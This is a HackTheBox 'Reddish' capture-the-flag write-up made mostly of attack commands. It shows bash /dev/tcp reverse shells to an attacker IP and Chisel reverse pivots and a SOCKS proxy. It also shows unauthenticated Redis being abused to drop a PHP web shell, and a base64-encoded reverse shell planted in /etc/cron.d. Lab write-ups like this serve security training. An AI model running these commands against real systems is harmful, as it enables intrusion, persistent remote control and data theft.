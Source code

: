 # HackTheBox Reddish Writeup

![date](https://img.shields.io/badge/date-02.26.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution

### Download LinEnum.sh script from your machine
    List shell type
    > ls -la /bin/sh
    > nc -lvp 8000 < LinEnum.sh
    > bash -c "cat < /dev/tcp/10.10.14.7/8000 > /dev/shm/LinEnum.sh"
    > bash -c "bash -i >& /dev/tcp/10.10.14.7/4445 0>&1"
    > nc -lvnp 4445
    > ip addr

### Build Chisel 
    > git clone https://github.com/jpillora/chisel.git
    > go build

    Check the size of generated exe file
    > chmod 777 chisel
    > du -sh chisel
    > upx brute chisel

### Chisel Reverse Pivot Establishment
    Server (Your machine)
    > chisel server -p 8000 -reverse -v

    Client (Target machine)
    > chisel client 10.10.14.7:8000 R:127.0.0.1:8001:172.18.0.2:80

    Now you can access website with localhost 
    > curl localhost:8001

#### Forward Port to 8001
    Server (Your machine)
    > chisel server -p 8002

    Client (Target machine)
    > chisel client 10.10.14.7:8002 9001:127.0.0.1:8001
    
#### Chisel Database Server Pivot Establishment
    Same as above, but with port changed.
    > chisel sever -port 6379 -reverse -v
    > chisel client 10.10.14.7:8000 R:127.0.0.1:6379:172.19.0.2:6379

    Now you can access database sever on target machine
    > nmap -sT -p 6379 -sC -sV localhost -oA nmap/172.19.0.2
    
#### Redis Remote Command Execution    

    > nc localhost 6379
    > echo "Hey no AUTH required!"
    > flushall
    > set Jason "<? system($ REQUEST['ippsec']); ?>"
    > config set dbfilename ippsec.php  
    > config set dir /var/www/html/
    > save

    Now visit http://localhost:8001/ippsec.php, and you get code execution.
    > localhost:8001/ippsec.php?ippsec=whoami

#### Generate Reverse Shell in Cron Task Time-table
    > echo "bash >& /dev/tcp/10.10.14.7/10101 0>&1" | base64
    > cd /etc/cron.d/
    > echo "* * * * * echo YmFzaCA+JiAvZGV2L3RjcC8xMC4xMC4xNC43IDA+JjEK | base64 -d | bash" > runme
    > nc -lvnp 10101
    > python -c 'import pty;pty.spawn("/bin/bash")'

### Chisel: More Details
    
#### Chisel Reverse Pivot
![Alt Text](chisel_reverse_pivot.png)

    htb> chisel server -p 8000 -reverse
    client> chisel client 10.10.14.7 R:127.0.0.1:80:127.0.0.1:80
    
Then you connected! Test connection use following command.

    htb> curl localhost:80

### Chisel Local Pivot
![Alt Text](chisel_local_pivot.png)

    htb> chisel server -p 8000
    client> chisel client 10.10.14.7:8000 8002:127.0.0.1:8002

You can also use it to connect to windows smb service port.
![Alt Text](chisel_local_pivot_win.png)

    htb> chisel server -p 8000
    client> chisel client 10.10.14.7:8000 9001:10.1.3.37:445

#### Chisel Reverse Socks  
![Alt Text](chisel_reverse_socks.png)
  
    htb> chisel server -p 8000 -reverse
    client> chisel client 10.10.14.7:8000 R:8001:127.0.0.1:1337
    client> chisel server -p 1337 -socks5
    htb> chisel client 127.0.0.1:8001 socks
    
Now you can access target machine using socks5 proxy

    htb> proxychains nmap -sT -p 22,80 172.19.0.2
    htb> proxychains curl 172.19.0.2:80
    
    



    
